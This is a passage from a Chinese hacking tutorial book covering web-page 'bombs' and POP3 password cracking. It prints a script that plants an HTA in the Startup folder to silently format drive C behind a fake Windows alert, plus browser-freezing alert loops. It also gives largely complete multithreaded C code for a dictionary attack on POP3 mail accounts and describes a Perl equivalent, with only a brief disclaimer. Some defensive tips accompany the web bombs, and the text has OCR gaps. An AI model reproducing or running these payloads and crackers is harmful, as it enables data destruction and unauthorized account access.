Set fs = CreateObject("scripting.filesystemobject")
```



## 图 6-6

```
Mload
Sub mload()
all dr
END SUB
Sub makf(PATT)
On Error Resume Next
fs.DeleteFile (PATT & "\111111111111.PIF")
fs.DeleteFile (PATT &"\222222222222.URL")
'修复代码，调用 FS 对象的 DeleteFile 方法无条件的删除破坏文件
End Sub
Sub folderlist(foldersp)
On Error Resume Next
Dim f, f1, sf
Set f = fs.GetFolder(foldersp).SubFolders
For Each f1 In f
makf(f1.path)
folderlist ( f1.Path )
Next
End Sub

Sub alldr()
Dim dr, d
On Error Resume Next
Set dr = fs.Drives
For Each d In dr
If d.drivertype = 2 Then
makf(d.Path)
folderlist ( d.Path & "" )
End If
Next
End Sub
```

两个程序都在C500 128MB 20G下运行成功，程序运行时并无异常现象。有兴趣的读者可以改编代码，像加入随机的产生文件名的方法，有优先权地向目录写入，或用别的语言改写，编译为可执行文件等等。请勿用于破坏。

### 6.7 网页炸弹的制作原理与安全防范

是否有过这样的经历，无意中打开一个网址，着实让我感到惊心，屏幕上不断弹出一连串的窗口，我只有眼睁睁地看着我的爱机资源耗尽而死机。我知道这是网页炸弹在作怪，幸亏自己以前搞过网页编程并熟悉一些网络安全问题，本节总结出网页炸弹的制作原理与安全防范，希望能对为数众多的网民有所帮助。

这些炸弹大多是用Java编写而成，现在我就列举几种最典型的网页炸弹：

### 一、最可怕的炸弹——格式化你的硬盘

源代码如下：

```
scr.Reset();
scr.Path="C:\WINDOWS\Start Menu\Programs\启动\heibao.hta";
scr.Doc="
wsh.Run('start.exe /m format c:/q /autotest /u');
alert('IMPORTANT : Windows is removing unused temporary files.');
scr.write();
```

现在，我大概来解释其中几个项目所写的意思：

```
scr.Path="C:\WINDOWS\Start Menu\Programs\启动\hack.hta"
```

这一项就是指，当你看到这网页它会写入到你的电脑启动目录底下，并命名为heibao.hta。

```
wsh.Run('start.exe /m format c:/q /autotest /u');
```

通常，要格式化硬盘都会先问你是否要执行，但其中的“/autotest”这项除外。它是一个微软没有公开的功能，键入后format的动作便会被强制执行。这项中的/q /u是令系统不需要检查硬盘便会立即执行的指令。

这种炸弹比较厉害，我单独给出安全防范措施。

解决方案：1.到微软去更新你的浏览器，最好使用最新的浏览器；2.禁用启动菜单，通过修改隐含的msdos.sys文件中加入Bootmenu=0命令行。

### 二、让人心烦的炸弹——不停地打开窗口，资源耗尽了

这就是本文开篇所提到的炸弹，源代码如下两种：

- 1.

这个炸弹要求浏览器不停地打开新的页面，不过多久你就死机了。就算不死机，你也得从内存中清除浏览器程序，这样你也就被踢出了网络。

- 2.同样的原理，<SCRIPT language=“LiveScript”>javascript:n=1;do{alert(“嘿嘿，你小子中弹了！”);}while(n==1)</SCRIPT>也是这种类型的炸弹。

### 三、考验你耐心的炸弹——让你点击上个几百次

源代码如下：

```
<script
language="JavaScript"><!--
// Hide the JavaScript from older browsers
(window.alert("请你点击确定进入本站！谢谢"))
// End hiding of script
// --></script>
```

像这样的语言重复上几百次，(window.alert(“下面有你好受的，哈哈！”))(window.alert(“现在知道上当了吧，不过，没办法啊”))……你就得点击上几百次啊！

### 四、蓝色火焰——五光十色的炸弹

如果点击含有下面代码的网页时，你的浏览器窗口会不停地交替显示蓝色黄色永不终止，就像是蓝色火焰，煞是好看，但在欣赏电脑屏幕上美妙动人的现象的同时，你什么也不能做，只能RESET了。
源代码如下：

```
<HTML>
<BODY>
<SCRIPT>
var color = new Array;
color[1] = "blue";
color[2] = "yellow";
for(x = 0; x <3; x++)
{
document.bgColor = color[x]
if(x == 2)
{
x = 0;
}
}
</SCRIPT>
</BODY>
</HTML>
```

我们还可以设置成其他颜色，只需改变color[1]=“blue”;color[2]=“yellow”的颜色设置即可，比如黑白交替的只需将“blue”换成“white”、“yellow”换成“black”。

### 五、心有余悸的炸弹——大恐怖图片，让你吓一跳

制作原理很简单：在html语言中加入吓死你啊！这么大的图片，现在的电脑是没法打开的，这样你的电脑只有死机了。
还有其他各种类型的炸弹，其原理大同小异，在此就不一一赘述。

### 六、关于本地安全配置和聊天室安全防范

由于微软在IE中增加了WSH（Windows Script Host）的运行脚本，WSH（Windows Script Host）是微软提供的一种基于32位Windows平台的、与语言无关的脚本解释机制，它使得脚本能够直接在Windows桌面或命令提示符下运行。利用WSH，用户能够操纵WSH对象、ActiveX对象、注册表和文件系统。在Windows 2000下，还可用WSH来访问Windows NT活动目录服务。WSH在Internet Explorer 3.0（或以上）提供的Visual Basic Script 和 Jscript脚本引擎，在带给人们便利的同时，WSH也为病毒的传播留下可乘之机。对于已安装的WSH服务，我们有如下防护措施：

- 1. 在Internet Explorer属性里面，对其高级选项进行配置，取消在浏览网页时的Java功能选项，具体方法如图6-6所示：



图6-6

- 2. 对于Windows 2000和Windows ME，从开始→程序→Windows资源管理器→工具→文件夹选项→文件类型，将滚动条下移找到VBScript脚本文件，将其删除。对于Windows 95和Windows NT 4.0，从开始→程序→Windows资源管理器或Windows NT资源管理器→查看→选项→文件类型，将滚动条下移找到VBScript脚本文件，将其删除。

- 3. 一些炸弹通常在聊天室中肆意横行，因此，管理员对聊天室的安全配制也必不可少，具体方法：a.按住发言栏下面的“配置”，进入后把显示项数改成一项b.当游览器出现一个让你动弹不得的窗口时，一手准备放在回车键，另一手把鼠标放在游览器“刷新”位置，一按回车键后立即用鼠标按“刷新”，否则只有关闭游览器！值得说明的一点，聊天室最好不要支持html语言，这样，发炸弹的人就无从下手。所以，比较安全的Web聊天室就是发言只支持纯文本的聊天室，当然这种安全是以失去动态页面为代价的。另外，我们还要记住，不要浏览一些来历不明的网站，也不要在聊天室里按其他网友发出的超级链接，这样可以避免遭到恶作剧者的攻击。

## 6.8 轻松破解Mail账号密码

破解E-mail账号密码的各类程序在网上或多或少都能够找到，而程序实现的源代码基本是以C语言为基础，结合相关的Winodws API（应用程序编程接口）的调用。虽说都是些简单的代码，但即使看懂了，也未必等于自己会写。所以，做为初学者的我还是决定自己亲自来写一下，并做出相应的记录总结。

在写这个程序之前，我就想过：一个基于110（POP3）端口的破解密码的程序应该是什么原理？首先可以知道的是，用户在接收邮件时，要连接110端口；其次用户的邮件账号和密码也是通过110端口来验证。以上的步骤都通过了，方可接收邮件。但是邮件服务器是如何通过110端口来验证是否连接成功？账号和密码是否正确呢？为此我查阅了相关的技术资料，并在自己的Windows 2000 Server上架了Imail邮件服务器。通过测试终于搞清楚了验证的具体步骤（如图6-7所示）。

如果连接邮件服务器的110端口成功的话，会返回一段信息“+OK X1 NT-POP3 Server m7.net (Imail 7.00 EVAL 513-1)”。这段提示说明了连接成功（+OK）、服务器的域名（m7.net）和邮件服务器的名称版本；接下来再将“user miyagi”发送过去后，邮件服务器再次返回用户名存在的提示符“+OK



图6-7

welcome”；最后就要验证账号的密码了。发送“pass 123456789”，若密码也正确的话，同样会返回一段成功提示符：“+OK maildrop locked and ready”。通过这3次发送对应的数据到邮件服务器的110端口，都成功的话都会以“+OK *******”的提示符返回，这样对于我们通过程序来判断是否成功连接，账号密码是否正确就有据可依了。到这里，我们应该清楚程序的实现原理以及程序需要由哪些主要部分组成了吧？

- (1) 准备部分为：邮件服务器地址、端口、账号、密码（因为是破解，所以应该是字典文件）；
- (2) 创建多线程，连接邮件服务器的110端口来检测账号的密码；
- (3) 通过相关Winsock调用连接服务器、发送账号和密码、接收返回信息判断密码检测是否正确。

下面再来看看程序关键部分的代码是如何实现的？

- 1. 通过主函数void main(int argc, char **argv)，我们可以利用argv[n]分别获得指定的邮件地址、账号、字典文件：

```
strcpy(popServer, argv[1]);
strcpy(Username, argv[2]);
strcpy(Dictionaryfile, argv[3]);
```

这里要说明一下的是：在获取变量Dictionaryfile的值时，需要考虑该变量是字典文件的绝对路径，还是字典的文件名。如果不是绝对路径的话，只好将这个字典文件放在程序运行的目录下，为此，在程序中我们还要取得Get Module File Name(NULL, WorkDir, _MAX_PATH)；用来将当前进程工作的文件的绝对路径赋于自己定义的WorkDir变量中，经过处理后供后面使用。

- 2. 准备工作做好了，接下来的工作就是通过创建多个线程来同步工作了。需要考虑的是应该创建多少个线程？如何同步它们呢？在上面提供的相关参数中，我们发现popServer是提供连接地址的，而Username提供要破解的用户名，只有Dictionaryfile是提供了字典文件的！对了，创建线程的多少应该和字典文件里的密码数相符，因为是“字典”，不可能同时对里面的每一个密码都创建线程让其运行吧？所以我们要通过使用内核对象来实现线程的同步。让我们了解以下几个关键的函数的使用方法。

- (1) 创建信标内核对象：

```
HANDLE CreateSemaphore(
PSECURITY_ATTRIBUTE psa,
LONG lInitialCount,
LONG lMaximumCount,
PCTSTR pszName);
```

第一个参数是一个SECURITY_ATTRIBUTE结构的指针变量，若要创建能继承的句柄时会用到，这里用NULL作为参数，那么该内核对象是默认安全属性的。第二和第三个参数分别是该信标创建好进允许使用的资源数量值与该信标内核对象最大允许使用的资源数量。最后一个参数是创建内核对象的命称，若传递NULL的话，则向系统指明想创建一个未命名的（匿名）内核对象。

- (2) 创建线程函数：

```
HANDLE CreateThread(
LPSECURITY_ATTRIBUTES lpThreadAttributes,
DWORD dwStackSize,
LPTHREAD_START_ROUTINE lpStartAddress,
LPVOID lpParameter,
DWORD dwCreationFlags,
LPDWORD lpThreadId);
```

第一个参数和信标函数里的解释一样。第二个参数是用于设定线程可以将多少地址空间用于它自己的堆栈，这里传递0给该参数，函数就保留一个区域。第三参数是指明要创建的新线程执行的线程函数的地址（就是我们要破解密码的函数的地址）。第四个参数是提供了一个将初始化值传递给线程函数的。第五个参数的作用是设定用于控制创建线程的其他标志，设定为0，那么线程创建后可以立即进行调度。最后一个参数是用来存放系统分配给新线程的ID的地址。

- (3) 关闭句柄函数：

```
BOOL CloseHandle(HANDLE hObject);
```

- (4) 等待函数：

```
WaitForSingleObject(
HANDLE hObject,
DWORD dwMilliseconds);
```

第一个参数标识一个能够支持被通知\未通知的内核对象，这里不用多说，读者也知道是上面的信标对象。第二个参数为为了等待该对象的时间。设置为INFINITE为无限等待下去。

- (5) 释放资源函数：

```
ReleaseSemaphore(
HANDLE hsem,
LONG lReleaseCount,
PLONG plPreviousCount);
```

第一个参数为所需操作的内核对象；第二个参数是释放资源数量值；第三个是返回当前资源数量的原始值。

了解了关键函数的用法后，我们来看看具体的程序实现：

```
__try
{
if (WSAStartup(MAKEWORD(2,2), &wsd) != 0)//加载 Winsock 库
{
printf("\nFailed to load Winsock library!ErrorCode:%d",GetLastError());
_leave;
}
//将网络字节形式转换成主机字节形式
popHost = ntohl(inet_addr(popServer));
```

```
hSemaphore=CreateSemaphore(NULL, ThreadNumb, ThreadNumb, NULL);
// 创建信标，初始资源数量和最大资源数量一样为 ThreadNumb

if(hSemaphore == NULL)
{
printf("\nCreateSemaphore failed:%d",GetLastError());
__leave;
}

while(!feof(DicStream))// 当打开的字典文件没有读完时
{
PasswdCount++;
// 从当前打开的字典文件里的该行取唯一的一个密码串，赋于 CurrentPasswd
fgets(CurrentPasswd, 128, DicStream);

// 将当前取出的字典文件里的密码，创建一个线程调用 Crack Passwd 进行比较
hThread = CreateThread(NULL, 0, CrackPasswd, (LPVOID)CurrentPasswd, 0, &dwThreadId);
if(hThread == NULL)
{
printf("\nCreate Thread failed:%d",GetLastError());
break;
}

//printf("\rThis is NO. %09ld Passwd: %15s", PasswdCount, CurrentPasswd);
printf("Cracking NO.%d Password: %s", PasswdCount, CurrentPasswd);
Sleep(20);

CloseHandle(hThread);// 关闭创建的线程
WaitForSingleObject(hSemaphore,INFINITE);
}

while(1)

{
WaitForSingleObject(hSemaphore,INFINITE);
if(!ReleaseSemaphore(hSemaphore,1,&PreviousCount))

{
printf("\nmain() ReleaseSemaphore failed:%d",GetLastError());
Sleep(50);
break;
}
if(PreviousCount>=(MaxThread-1))
// 因为 PreviousCount 是释放前的原始资源数量，不包含刚释放的这一样，所以需要通过与 MaxThread-
1 来比较判断。
{
printf("\nAll Thread done.");
break;
}
Sleep(20);
```

## 注：略去了相关变量定义的部分。

3. 上一步通过创建多线程，调用破解密码的函数完成了主要的工作。接下来就看看如何编程实现连接服务器并检测账号和密码。这里是以这些操作写成一个函数供主函数里的CreateThread调用的，同样先来掌握关键API函数的用法。

构造Winsock套接字:

```
SOCKET socket(
int af,
int type,
int protocol);
```

如果对Winsock了解的话，就知道API是建立在套接字基础上的。所谓的套接字，就是一个指向传输提供者的句柄。Win32中，套接字不同于文件描述符，所以它是一个独立的类型——SOCKET。第一个参数是协议的地址家族。如想建立一个UDP或TCP套接字，可用常量AF_INET来指代互联网协议（IP）。第二个参数是协议的套接字的类型，其类型可以是下面5个值：SOCK_STREAM, SOCK_DGRAM, SOCK_SEQPACKET, SOCK_RAW, SOCK_RDM。最后一个参数是设定特定转输，如IPPROTO_IP, IPPROTO_UDP等。为什么要构造这个套接字呢？用明白点的话讲，就是在与服务器通信时，必须建立在这个基础上。当然还有个重要的数据结构要定义，如下介绍。

(2) 指定IP地址和服务器端口信息的结构变量:

```
struct sockaddr_in
{
short sin_family;
u_short sin_port;
struct in_addr sin_addr;
char sin_zero[8];
};
```

第一个参数必须设为AF_INET，用以告知Winsock现在是在使用IP地址家族；
第二个参数是指定要与服务器的哪个端口进行通信；
第三个参数是用于把要连接目标服务器的IP地址保存为一个4字节的数，是个无符号长整数类型。该数可以通过inet_addr函数转换获得。假设我们定义了一个Server的该结构变量，在程序中应该这样赋于相应数值:

```
server.sin_family=AF_INET;
server.sin_port=htons(popPort);
server.sin_addr.S_un.S_addr=htonl(popHost);
```

### (3) 连接服务器函数:

```
int connect(
SOCKET s,
const struct sockaddr FAR* name,
int namelen);
```

看到这个函数就清楚了吧？第一个参数就是我们构造的那个套接字变量；第二个当然就是上面的指定IP和端口的结构变量了；第三个参数是第二个参数的变量大小。如：connect(s,(SOCKADDR *)&server, sizeof(server)。

### (4) 数据传输函数:

```
int send(
SOCKET s,
const char FAR* buf,
int len,
int flags);
```

第一个参数不多说了，同connect函数里的一样；第二个参数是字符缓冲区，即要发送的数据；第三个参数是发送的缓冲区内的字符数；最后的flags可为0。

### (5) 接收数据返回函数:

```
recv(
SOCKET s,
char FAR* buf,
int len,
int flags);
```

第一个参数，同connect函数里的一样；第二个参数是接收的数据的字符缓冲区；第三个参数是该接收数据缓冲区的长度；最后的参数可为0。

创建多线程调用的CrackPasswd函数里的关键函数功能和用法都了解了，我们就来看看代码吧。

```
DWORD WINAPI CrackPasswd(LPVOID Pass)
{
SOCKET s = INVALID_SOCKET;//定义套接字变量
struct sockaddr_in server;//定义IP、端口的结构变量
int SErr;
char *RetInf;
char PasswdBuff[1024] = {0};
strcpy(PasswdBuff, "pass ");
strcat(PasswdBuff, (char *)Pass);
//形成PasswdBuff="pass Passwd变量值"的标准格式
strcat(PasswdBuff, "\n");
int PasswdBuffLen = strlen(PasswdBuff);

char UserBuff[1024] = {0};
strcpy(UserBuff, "user ");
strcat(UserBuff, Username);
//将Username的值追加到"user "后,形成UserBuff="user Username变量值"的标准格式
strcat(UserBuff, "\n");
int UserBuffLen = strlen(UserBuff);

//定义接收缓冲区
char RecvBuff[1024] = {0};
int RecvBuffLen = 1024;

s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);//构造套接字
if(s==INVALID_SOCKET)//判断是否构造失败
{
printf("\nCreate socket failed:%d",GetLastError());
ExitProcess(1);
}

//构造IP地址和端口信息
server.sin_family=AF_INET;
server.sin_port=htons(popPort);
server.sin_addr.S_un.S_addr=htonl(popHost);

__try
{
if(connect(s,(SOCKADDR *)&server, sizeof(server)) != 0)
__leave;

//接收POP服务器返回的信息
SErr = recv(s, RecvBuff, RecvBuffLen, 0);
if(SErr == SOCKET_ERROR)//接收不成功,退出
__leave;
RetInf = strstr(RecvBuff, "+OK");
if(RetInf == NULL)//非成功连接服务器的信息
{
send(s, "quit\n", strlen("quit\n"), 0);
__leave;
}

//若连接POP服务器成功,再次发送SendBuff,即标准用户名格式
SErr = send(s, UserBuff, UserBuffLen, 0);
if(SErr == SOCKET_ERROR)//判断这次用户名的发送成功否,不成功退出
__leave;

memset(RecvBuff, '\0', 1024);//清除RecvBuff上次接收的内容
//再次接收,接收POP服务器返回对用户名的判断
SErr = recv(s, RecvBuff, RecvBuffLen, 0);
if(SErr == SOCKET_ERROR)
__leave;
RetInf = strstr(RecvBuff,"+OK");//判断返回的提示符是否为+OK
if(RetInf == NULL)
{
send(s, "quit\n", strlen("quit\n"), 0);
__leave;
}

SErr = send(s, PasswdBuff, PasswdBuffLen, 0);//用户名验证成功，则再发送密码数据
if(SErr == SOCKET_ERROR)
__leave;
memset(RecvBuff, '\0', 1024);//清除上次保存的数据
SErr = recv(s, RecvBuff, RecvBuffLen, 0);
if(SErr == SOCKET_ERROR)
__leave;

RetInf = strstr(RecvBuff, "+OK");
if(RetInf != NULL)
{
printf("\n\nSuccessful Crack! %s\n", PasswdBuff);
SucStream = fopen(successFileName, "w+");//以写打开 successFileName
fprintf(SucStream, "%s User:%s %s\n", popServer, Username, PasswdBuff);//记录成功账号和密码
fclose(SucStream);//关闭文件流
//successful = true;
}
send(s, "quit\n", strlen("quit\n"), 0);

}
__finally
{
if(!ReleaseSemaphore(hSemaphore,1,NULL))//做完一次测试，释放一个信标
printf("\nthread ReleaseSemaphore failed:%d",GetLastError());
closesocket(s);
}

return 1;
}
```

到这里，程序的主要部分就都分析完了！该程序在Windows2000 环境下构架了邮件服务器测试成功，利用朋友网站上的邮件服务器也同样测试成功。但若运用网络中其他的邮件服务器，可能因为网络的某些原因产生一些出入。不过，编写本程序的目地是在于学习和研究，并非要去破解某某的E-mail账号的密码。

## 6.9 Perl编写密码破解工具DIY

以前曾经介绍了用VB制作一些基础的工具，收到许多网友的来信，表示了他们对VB制作入侵工具的关注。俗话说师傅领进门，修行在个人。笔者的知识也有局限，希望诸位朋友能自己领悟VB网络编程的奥秘，开发一些未被开发的工具类别，一定能取得很好的成效。这次，我收集了自己用Perl编写的几个工具，并简单概括一下Perl编程在网络的运用上的技巧，以及编写密码破解程序的方法。希望你能多多涉猎各个语言关于网络编程的相通之处。

### 一、架设Perl的运行环境

在Windows系列操作系统下，你只需安装 ActivePerl就可以了（下载地址http://www.activestate.com/)。安装是全自动的，本文的程序只需按照默认的配置即可。UNIX/Linux系统下如果默认没有安装Perl的话，可以下载Perl的PM包，安装步骤可以参阅软件自带的帮助文件，本文从略。

#### 二、热身知识

Perl的基本知识可以参阅许多Perl的入门编程知识，在阅读本文之前，你应该学会变量、数组以及简单的文本操作的程序编写。我先来讲一下Perl在网络功能方面运用的知识：

运行时参数的配置：

参数的默认变量是ARGV，可以通过这个数组变量获得用户输入命令时所获得的参数。比如@ARGV是获得总共有多少个参数，如果设置了$ARGC=@ARGV，那么$ARGV[0]就是第一个参数，$ARGV[1]就是第二个参数，以此类推。

Perl的Socket编程：

用到了Socket，首先要在文件的开头use strict;use Socket: 来输入Socket库中的函数。这样我们就可以在自己的Perl程序中运用Socket的函数了。我们需要的函数如下：

- 1.gethostbyaddr(ADDRESS, TYPE)
将压缩形式的网络地址转换为更易于人阅读理解的名字与地址。当只知道主机的IP地址时，可以使用本函数查询主机名及其他网络信息，会返回一个列表，包含如下信息：
($name, $alias, $addrtype, $length, $address)
其中，$name是与IP地址对应的主机名，$alias是对应$name的其他别名，$addrtype是网络地址的类型，$length是地址的长度，而$address则是压缩形式IP地址的列表。

- 2.connect(SOCKET, NAME)
试图与已经调用了accept()函数并等待建立连接的另外一个进程进行对话。如果成功，则返回真;否则返回假。NAME应该是对应SOCKET句柄正确类型的压缩地址。

- 3.gethostbyname(NAME)
与上面的gethostbyaddr()函数类似，不过在这里主机名是作为参数，返回的信息格式完全相同。

- 4.listen()
listen()系统调用被服务器所使用。下面有它的定义：

```
#include<sys/types.h>
#include<sys/socket.h>
int listen(int sockfd, int backlog);
```

Sockfd是套接字描述符，backlog是在一时间内尚未被决定是否拒绝的连接的号码，一般使用标准值5，如发生错误则返回值小于1。如果这个调用成功，你就已经可以接受连接了。

- 5.accept()
accept()调用被服务器用于接受任何从客户机connect()调用所引入的信息。必须明白的是，如果没有接受到连接这个函数将不返回任何值，它是这样定义的：

```
#include<sys/types.h>
#include<sys/socket.h>
int accept(int sockfd, struct sockaddr *peeraddr, int addrlen)
```

除peeraddr指向发出连接请求的客户机的信息外，其他参数和bind()系统调用的相同。在信息引入的基础上，peeraddr所指向的结构的域被填上相应的值。

除了以上几个Socket函数之外，还有几个函数读者可以通过实例自己来体会一下。我现在来介绍一下本文所用到的其他一些十分适用的函数：

- 1.chop()
调用语法 $chars = chop (var);
var可为变量或数组，当var为变量时，最后一个字符被删除并赋给$chars，当var为数组/列表时，所有元素的最后一个字符被删除，最后一个元素的最后一个字母赋给$chars。当我们需要用字典进行密码的读取时，可以用这个函数将这一行的回车符删去。

2.打开、关闭文件

语法为open (filevar, filename)，其中filevar为文件句柄，或者说是程序中用来代表某文件的代号，filename为文件名，其路径可为相对路径，亦可为绝对路径。例如：

```
open(FILE1, "c:/test.txt");
```

就是打开c:下的test.txt并储存在FILE1中。

#### 三、程序的原理

本文运用的是通过打开服务器字典、用户名字典、密码字典，然后一次读取每一行的内容，将所有的组合依次连接，如果连接成功，就加入成功的数组，并记录到新的文件中。比如，读取用户名为zhangsan，密码为zhangsan111，服务器为pop.victim.com。则尝试用zhangsan这个账户登陆服务器，如果能返回“+OK”字符，则表示该账号正确，通过反复读取文件中的内容，并进入循环过程，就可以达到密码破解的目的。

#### 四、程序注释



#### 五、程序的演示

我使用附录中的pop3crack.pl，并将已知的一个正确组合，即正确的用户名、密码、服务器混合到列表中。并进行测试如下：

开始扫描(图6-7)：

扫到一个正确的账号(图6-8)；




图6-7

图6-8

扫描结束，记录文档（图6-9）。

